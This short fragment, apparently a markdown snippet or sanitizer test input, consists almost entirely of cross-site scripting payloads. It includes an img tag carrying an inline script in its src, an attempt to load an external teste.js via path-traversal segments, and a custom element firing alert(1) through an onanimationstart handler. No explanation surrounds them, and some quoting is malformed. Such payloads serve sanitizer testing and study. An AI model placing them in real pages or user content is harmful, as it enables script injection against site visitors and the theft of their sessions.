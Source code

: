 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="?w=<script>alert(0);</script>" value=”"<script src='../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js'>;"” width="alert(1)">

<xss class=progress-bar-animated onanimationstart=alert(1)>
